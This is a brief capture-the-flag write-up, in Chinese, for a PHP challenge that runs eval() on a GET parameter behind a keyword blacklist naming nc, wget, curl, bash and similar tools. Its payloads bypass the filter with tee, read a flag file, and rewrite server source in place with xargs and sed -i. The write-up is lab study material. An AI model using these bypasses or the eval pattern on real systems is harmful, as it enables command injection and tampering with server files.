 # 知识点
[https://blog.csdn.net/Kracxi/article/details/121997166](https://blog.csdn.net/Kracxi/article/details/121997166)
### tee
[https://www.runoob.com/linux/linux-comm-tee.html](https://www.runoob.com/linux/linux-comm-tee.html)
### xargs / sed
[https://blog.csdn.net/weixin_39731083/article/details/82495950](https://blog.csdn.net/weixin_39731083/article/details/82495950)
# 思路
```python
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|eval|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        echo('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    eval($c);
}
else{
    highlight_file(__FILE__);
}
?>
```
```python
方法一 利用tee保存为文件
?c=ls | tee 1
?c=cat /f149_15_h3r3 | tee 2
方法二 通过 ls | xargs sed -i "s/exec/system" 进行字符替换
ls | xargs sed -i "s/die/echo/"
ls | xargs sed -i "s/exec/system/"
?c=tac /f*
```
